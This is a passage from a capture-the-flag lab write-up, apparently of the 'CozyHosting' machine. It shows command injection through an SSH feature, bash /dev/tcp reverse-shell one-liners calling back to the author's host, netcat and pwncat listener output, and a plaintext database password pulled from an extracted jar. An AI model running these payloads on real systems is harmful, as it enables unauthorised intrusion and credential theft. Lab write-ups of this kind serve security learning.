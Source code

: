 I decide to put my payload inside the SSH command and attempt some command injection.

I had alot of trouble achieving a reverse shell and ended up looking for some other options...

For whatever reason this ended up working: ``;`(/bin/bash)0>/dev/tcp/10.10.***.***/4445`` only once followed with `exec >&0` in the reverse shell connection.

```
$ nc -lvnp 4445
Connection from 10.10.11.230:43012
exec >&0
whoami
app
```

## User Flag

Looking in the current directory I found a file called `cloudhosting-0.0.1.jar`, and I hosted a directory webserver to download the file locally using `python3 -m http.server` and then visiting [cozyhosting.htb:8000](http://cozyhosting.htb:8000).

I extract the file using `jar xf cloudhosting-0.0.1.jar` and get some folders:

```
BOOT-INF/
META-INF/
org/
```

Looking inside `BOOT-INF/classes/application.properties` we see some credentials:

```
...
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Before logging in I make my shell more usable with `pwncat-cs`.

```
$ pwncat-cs
[00:05:00] Welcome to pwncat 🐈!
(local) pwncat$ listen --host=10.10.16.9 -m linux 4444
[00:05:08] new listener created for 10.10.16.9:4444
```

and in our earlier shell we run a reverse shell: `/bin/bash -i >& /dev/tcp/10.10.16.9/4444 0>&1` and recieve a connection back in pwncat.

```
[01:26:43] 10.10.11.230:55292: registered new host w/ db
           listener: 10.10.16.9:4444: linux session from 10.10.11.230:55292
           established
           all pending channels configured
```
